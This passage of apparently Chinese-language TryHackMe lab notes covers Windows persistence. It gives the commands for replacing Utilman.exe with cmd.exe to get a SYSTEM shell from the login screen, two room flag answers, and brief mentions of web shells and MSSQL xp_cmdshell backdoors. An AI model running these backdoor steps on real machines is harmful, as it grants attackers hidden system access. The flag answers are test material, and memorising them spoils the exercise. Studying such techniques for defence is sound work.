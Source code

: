 ### Utilman

原理与上面相识

当我们单击登录屏幕上的轻松访问按钮时，windows会以system权限执行
```
C:\Windows\System32\Utilman.exe
```

只要替换成cmd.exe就可以拿到system的shell

```
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
```

Insert flag14 here
thm{breaking_through_login}


Insert flag15 here
thm{the_login_screen_is_merely_a_suggstion}

## Persisting Through Existing Services

### Using Web Shells

就是上传一个web shell，很简单，不多说

### Using MSSQL as a Backdoor

利用mssql的xp_cmdshell能力执行一个PS脚本